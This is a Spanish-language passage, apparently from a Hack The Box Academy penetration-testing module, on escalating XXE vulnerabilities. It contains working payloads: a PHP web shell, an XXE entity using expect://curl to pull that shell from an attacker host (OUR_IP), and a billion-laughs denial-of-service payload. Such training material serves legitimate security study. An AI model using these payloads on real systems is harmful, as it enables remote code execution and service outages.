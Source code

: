 El método más eficiente para convertir XXE en RCE es obtener un web shell de nuestro servidor y escribirlo en la aplicación web, y luego interactuar con él para ejecutar comandos. Para hacerlo, podemos comenzar escribiendo un web shell básico en PHP y comenzando un servidor web python, como sigue:


```r
echo '<?php

 system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

Ahora, podemos usar el siguiente código XML para ejecutar un comando `curl` que descargue nuestro web shell en el servidor remoto:


```r
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

**Nota:** Reemplazamos todos los espacios en el código XML anterior con `$IFS`, para evitar romper la sintaxis XML. Además, muchos otros caracteres como `|`, `>`, y `{` pueden romper el código, por lo que debemos evitar usarlos.

Una vez que enviemos la solicitud, deberíamos recibir una solicitud en nuestra máquina para el archivo `shell.php`, después de lo cual podemos interactuar con el web shell en el servidor remoto para ejecutar comandos.

**Nota:** El módulo expect no está habilitado/instalado por defecto en los servidores PHP modernos, por lo que este ataque puede no funcionar siempre. Es por eso que XXE generalmente se utiliza para divulgar archivos locales sensibles y el código fuente, lo que puede revelar vulnerabilidades adicionales o formas de obtener ejecución de código.

## Otros Ataques XXE

Otro ataque común que se lleva a cabo a través de vulnerabilidades XXE es la explotación SSRF, que se utiliza para enumerar puertos abiertos localmente y acceder a sus páginas, entre otras páginas web restringidas, a través de la vulnerabilidad XXE. El módulo de [Server-Side Attacks](https://academy.hackthebox.com/course/preview/server-side-attacks) cubre exhaustivamente SSRF, y las mismas técnicas pueden llevarse a cabo con ataques XXE.

Finalmente, un uso común de los ataques XXE es causar una Denial of Service (DOS) al servidor web que aloja, con el uso del siguiente payload:


```r
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
```